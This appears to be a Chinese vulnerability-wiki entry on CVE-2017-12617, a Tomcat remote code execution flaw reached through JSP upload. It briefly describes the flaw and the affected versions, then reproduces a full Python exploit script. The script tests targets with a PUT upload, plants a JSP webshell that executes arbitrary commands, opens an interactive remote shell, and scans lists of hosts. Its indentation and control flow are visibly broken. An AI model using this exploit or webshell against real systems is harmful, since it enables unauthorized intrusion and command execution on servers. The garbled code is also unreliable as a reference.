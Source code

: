 （CVE-2017-12617）Tomcat RCE via JSP Upload Bypass
==================================================

一、漏洞简介
------------

Apache
Tomcat版本9.0.0.M1至9.0.0、8.5.0至8.5.22、8.0.0.RC1至8.0.46和7.0.0至7.0.81且启用HTTP
PUT时（例如，通过设置只读如果将Default
servlet的初始化参数设置为false，则可以通过特制请求将JSP文件上载到服务器。然后可以请求此JSP，并且服务器将执行其中包含的所有代码。

二、漏洞影响
------------

Apache Tomcat版本9.0.0.M1至9.0.0Apache Tomcat版本8.5.0至8.5.22Apache Tomcat版本8.0.0.RC1至8.0.46Apache Tomcat版本7.0.0至7.0.81

三、复现过程
------------

**msf自带的有利用脚本，懒省事可以直接用msf**![QQ截图20200521185636.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12617)TomcatRCEviaJSPUploadBypass/media/rId24.png)

### poc

**useage**

    ./cve-2017-12617.py -u http://www.0-sec.org
    ./cve-2017-12617.py --url http://www.0-sec.org
    ./cve-2017-12617.py -u http://www.0-sec.org -p pwn
    ./cve-2017-12617.py --url http://www.0-sec.org -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    #!/usr/bin/python
    import requests
    import re
    import signal
    from optparse import OptionParser






    class bcolors:
        HEADER = '\033[95m'
        OKBLUE = '\033[94m'
        OKGREEN = '\033[92m'
        WARNING = '\033[93m'
        FAIL = '\033[91m'
        ENDC = '\033[0m'
        BOLD = '\033[1m'
        UNDERLINE = '\033[4m'




    banner="""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    [@intx0x80]
    """





    def signal_handler(signal, frame):

        print ("\033[91m"+"\n[-] Exiting"+"\033[0m")

        exit()

    signal.signal(signal.SIGINT, signal_handler)




    def removetags(tags):
      remove = re.compile('<.*?>')
      txt = re.sub(remove, '\n', tags)
      return txt.replace("\n\n\n","\n")


    def getContent(url,f):
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        re=requests.get(str(url)+"/"+str(f), headers=headers,verify=False)
        return re.content

    def createPayload(url,f):
        evil='<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA");%>'
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+str(f)+"/",data=evil, headers=headers,verify=False)
        if req.status_code==201:
            print "File Created .."

       
    def RCE(url,f):
        EVIL="""<FORM METHOD=GET ACTION='{}'>""".format(f)+"""
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
        </FORM>
        <%@ page import="java.io.*" %>
        <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"</br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <pre><%=output %></pre>"""


        
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+f+"/",data=EVIL, headers=headers,verify=False)
        


    def shell(url,f):
        
        while True:
            headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
            cmd=raw_input("$ ")
            payload={'cmd':cmd}
            if cmd=="q" or cmd=="Q":
                    break
            requests.packages.urllib3.disable_warnings()
            re=requests.get(str(url)+"/"+str(f),params=payload,headers=headers,verify=False)
            re=str(re.content)
            t=removetags(re)
            print t





    #print bcolors.HEADER+ banner+bcolors.ENDC

    parse=OptionParser(


    bcolors.HEADER+"""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    ./cve-2017-12617.py [options]
    options:
    -u ,--url [::] check target url if it's vulnerable 
    -p,--pwn  [::] generate webshell and upload it
    -l,--list [::] hosts list
    [+]usage:
    ./cve-2017-12617.py -u http://127.0.0.1
    ./cve-2017-12617.py --url http://127.0.0.1
    ./cve-2017-12617.py -u http://127.0.0.1 -p pwn
    ./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    [@intx0x80]
    """+bcolors.ENDC

        )


    parse.add_option("-u","--url",dest="U",type="string",help="Website Url")          
    parse.add_option("-p","--pwn",dest="P",type="string",help="generate webshell and upload it")
    parse.add_option("-l","--list",dest="L",type="string",help="hosts File")

    (opt,args)=parse.parse_args()

    if opt.U==None and opt.P==None and opt.L==None:
        print(parse.usage)
        exit(0)



    else:
        if opt.U!=None and opt.P==None and opt.L==None:
            print bcolors.OKGREEN+banner+bcolors.ENDC 
            url=str(opt.U)
            checker="Poc.jsp"
            print bcolors.BOLD +"Poc Filename  {}".format(checker)
            createPayload(str(url)+"/",checker)
            con=getContent(str(url)+"/",checker)
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
            print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
            
        else:
                print 'Not Vulnerable to CVE-2017-12617 '
        elif opt.P!=None and opt.U!=None and  opt.L==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            pwn=str(opt.P)
            url=str(opt.U)
            print "Uploading Webshell ....."
            pwn=pwn+".jsp"
            RCE(str(url)+"/",pwn)
            shell(str(url),pwn)
        elif opt.L!=None and opt.P==None and opt.U==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            w=str(opt.L)
            f=open(w,"r")
            print "Scaning hosts in {}".format(w)
            checker="Poc.jsp"
            for i in f.readlines():
                i=i.strip("\n")
                createPayload(str(i)+"/",checker)
                con=getContent(str(i)+"/",checker)
                if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                    print str(i)+"\033[91m"+" [ Vulnerable ] ""\033[0m"

